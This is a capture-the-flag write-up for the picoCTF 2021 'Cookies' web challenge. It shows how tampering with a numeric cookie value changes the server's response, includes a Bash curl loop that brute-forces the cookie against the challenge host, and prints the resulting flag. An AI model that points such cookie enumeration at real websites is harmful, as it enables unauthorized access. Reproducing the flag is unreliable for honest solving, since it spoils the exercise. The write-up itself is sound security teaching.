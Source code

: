 # :briefcase: Cookies

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2021`
- **Tag**: `None`
- **Author**: `madStacks`
- **Date**: `11/06/2025`

---

# :pencil: Description

Who doesn't love cookies? Try to figure out the best one. [link](https://play.picoctf.org/practice/challenge/173)

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Entered `snickerdoodle` into the input field and clicked the `Search` button`>` A message was displayed on the page

    ![image2](images/image2.png)

3. Checked the cookie `>` We have a cookie named `name` with the value `0`

    ![image3](images/image3.png)

4. Changed the cookie value to `1` and reloaded the page `>` A new message appeared

    ![image4](images/image4.png)

5. So the flag might be revealed at a certain value, therefore we can write a Bash script to automate the process.

    ```sh
    #!/bin/bash

    for i in {0..24}
    do
        cookie="name=$i"
        response=$(curl -s -H "Cookie: $cookie" "http://mercury.picoctf.net:21485/check")

        if echo "$response" | grep -q "picoCTF"; then
            echo "$response" | grep -i "picoCTF"
        fi
    done
    ```

6. We found it

    ![image5](images/image5.png)

---

# :white_flag: Flag

> picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

---

# :writing_hand: Notes

`None`

---

# :books: Resources

- [Bash Reference Manual](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html)
- [Requests: HTTP for Humans™ — Requests 2.32.4 documentation](https://requests.readthedocs.io/en/latest/)
- [GNU Grep 3.12](https://www.gnu.org/savannah-checkouts/gnu/grep/manual/grep.html)

---

# :hammer_and_wrench: Tools used

`Bash` script

